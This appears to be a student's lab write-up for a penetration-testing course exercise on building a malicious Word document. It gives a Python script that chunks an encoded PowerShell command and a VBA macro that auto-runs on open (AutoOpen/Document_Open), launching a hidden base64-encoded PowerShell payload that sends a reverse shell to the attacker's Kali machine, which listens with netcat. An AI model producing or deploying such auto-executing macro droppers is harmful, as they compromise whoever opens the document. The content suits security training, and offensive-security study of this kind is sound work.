

### 13.3.2.1 Exercise
#### 1. Use the PowerShell payload from the HTA attack to create a Word macro that sends a reverse shell to your Kali system.

- Split command from HTA attack using Python

  ```python
  # Python script to split up command
  str = "HTA Powershell Command here"
  n = 50
  for i in range(0, len(str), n):
  	print "Str = Str + " + '"' + str[i:i+n] + '"'
  ```
  
- Took split command and inserted into macro in Word doc

  ```vbscript
  ' Basic VB script to auto-run a command on open
  Sub AutoOpen()
  MyMacro
  End Sub
  Sub Document_Open()
  MyMacro
  End Sub
  Sub MyMacro()
      
      Dim Str As String
      
      Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
  Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
      ------CLIPPED------
  Str = Str + "kAHAAPQBbAFMAeQBzAHQAZQBtAC4ARABpAGEAZwBuAG8AcwB0A"
  Str = Str + "GkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgBTAHQAYQByAHQ"
  Str = Str + "AKAAkAHMAKQA7AA=="
  
      
      CreateObject("Wscript.Shell").Run Str
      
  End Sub
  
  ```

- Started Netcat listener.  Saved doc and reopened to get reverse shell:
  

